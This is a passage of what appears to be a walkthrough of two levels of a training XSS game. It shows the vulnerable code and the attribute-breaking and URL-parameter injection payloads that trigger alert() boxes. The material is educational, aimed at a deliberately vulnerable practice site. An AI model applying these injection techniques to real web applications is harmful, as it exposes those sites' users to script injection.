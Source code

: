 ### Solution

We can see in the source code that the parameter is not filtered and directely put into the image tags. This allows us to inject code...

```javascript
function chooseTab(num) {
	// Dynamically load the appropriate image.
	var html = "Image " + parseInt(num) + "<br>";
	html += "<img src='/static/level3/cloud" + num + ".jpg' />";
	$('#tabContent').html(html);
	// ...
}
```
![](http://adr.iaan.be/xss/7.png)
![](http://adr.iaan.be/xss/8.png)

We can inject the following: 
```
1.jpg'onload='alert("xss")'
```
which gives the following html:

```HTML
<img src='/static/level3/cloud1.jpg'onload='alert("xss")'.jpg' />
```

![](http://adr.iaan.be/xss/9.png)
![](http://adr.iaan.be/xss/10.png)

## Level 4: Context matters

Every bit of user-supplied data must be correctly escaped for the context of the page in which it will appear. This level shows why. 

![](http://adr.iaan.be/xss/11.png)

### Solution

Similar to level 3, we see:

```html
<img onload="startTimer('100');" src="/static/loading.gif"></img>
```
![](http://adr.iaan.be/xss/12.png)

So we only have to mess with the GET statement to inject our code.
```
https://xss-game.appspot.com/level4/frame?timer=100')%3Balert('XSS
```
(%3B is the url encoded version of a semi-colon).

Which renders: 
```html
onload="startTimer('100');alert('XSS');" src="/static/loading.gif"></img>
```
![](http://adr.iaan.be/xss/13.png)
